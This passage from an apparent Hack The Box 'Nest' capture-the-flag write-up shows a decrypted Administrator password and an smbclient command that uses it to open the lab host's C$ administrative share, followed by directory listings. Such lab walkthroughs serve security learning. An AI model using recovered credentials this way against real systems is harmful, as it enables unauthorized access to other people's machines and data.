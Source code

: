 The way I went about this was to run it inside an online .Net complier.

![](https://cdn-images-1.medium.com/max/1024/0*_o9sm6kINQaAZ4OB)

We can see from above that once we run the code, it gives us the decrypted password which is: XtH4nkS4Pl4y1nGX. Now that we have the Administrative password, we can now log into the smb drive **C** as an Administrative user and grab the root.txt flag.

```
root@kali:~/htb/nest# smbclient -U Administrator%XtH4nkS4Pl4y1nGX \\\\10.10.10.178\\C$
Domain=[HTB-NEST] OS=[] Server=[]
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin DHS 0 Mon Jul 13 22:34:39 2009
  Boot DHS 0 Sat Jan 25 16:15:35 2020
  bootmgr AHSR 383786 Fri Nov 19 23:40:08 2010
  BOOTSECT.BAK AHSR 8192 Tue Aug 6 01:16:26 2019
  Config.Msi DHS 0 Sat Jan 25 16:49:12 2020
  Documents and Settings DHS 0 Tue Jul 14 01:06:44 2009
  pagefile.sys AHS 2146881536 Tue Jun 9 16:59:51 2020
  PerfLogs D 0 Mon Jul 13 23:20:08 2009
  Program Files DR 0 Wed Aug 7 19:40:50 2019
  Program Files (x86) DR 0 Tue Jul 14 01:06:53 2009
  ProgramData DH 0 Mon Aug 5 16:24:41 2019
  Recovery DHS 0 Mon Aug 5 16:22:25 2019
  restartsvc.bat A 33 Wed Aug 7 19:43:09 2019
  Shares D 0 Tue Aug 6 09:59:55 2019
  System Volume Information DHS 0 Tue Aug 6 00:17:38 2019
  Users DR 0 Thu Aug 8 13:19:40 2019
  Windows D 0 Sat Jan 25 16:22:42 2020

        10485247 blocks of size 4096. 6543143 blocks available
smb: \> cd ./Users
smb: \Users\> ls
  . DR 0 Thu Aug 8 13:19:40 2019
  .. DR 0 Thu Aug 8 13:19:40 2019
  Administrator D 0 Mon Aug 5 16:33:56 2019
  All Users DHS 0 Tue Jul 14 01:06:44 2009
  Default DHR 0 Tue Jul 14 02:38:21 2009
  Default User DHS 0 Tue Jul 14 01:06:44 2009
  desktop.ini AHS 174 Tue Jul 14 00:57:55 2009
  Public DR 0 Tue Jul 14 00:57:55 2009
  Service\_HQK D 0 Thu Aug 8 13:19:41 2019
  TempUser D 0 Fri Aug 9 08:33:50 2019

        10485247 blocks of size 4096. 6543143 blocks available
smb: \Users\> cd ./Administrator\
smb: \Users\Administrator\> ls
  . D 0 Mon Aug 5 16:33:56 2019
  .. D 0 Mon Aug 5 16:33:56 2019
  AppData DH 0 Mon Aug 5 16:27:25 2019
  Application Data DHS 0 Mon Aug 5 16:27:25 2019
  Contacts DR 0 Sat Jan 25 17:02:44 2020
  Cookies DHS 0 Mon Aug 5 16:27:25 2019
  Desktop DR 0 Sun Jan 26 02:20:50 2020
  Documents DR 0 Sat Jan 25 17:02:44 2020
  Downloads DR 0 Sat Jan 25 17:02:44 2020
  Favorites DR 0 Sat Jan 25 17:02:44 2020
  Links DR 0 Sat Jan 25 17:02:44 2020
  Local Settings DHS 0 Mon Aug 5 16:27:25 2019
  Music DR 0 Sat Jan 25 17:02:44 2020
  My Documents DHS 0 Mon Aug 5 16:27:25 2019
  NetHood DHS 0 Mon Aug 5 16:27:25 2019
  NTUSER.DAT AHS 786432 Sun Jan 26 02:31:38 2020
```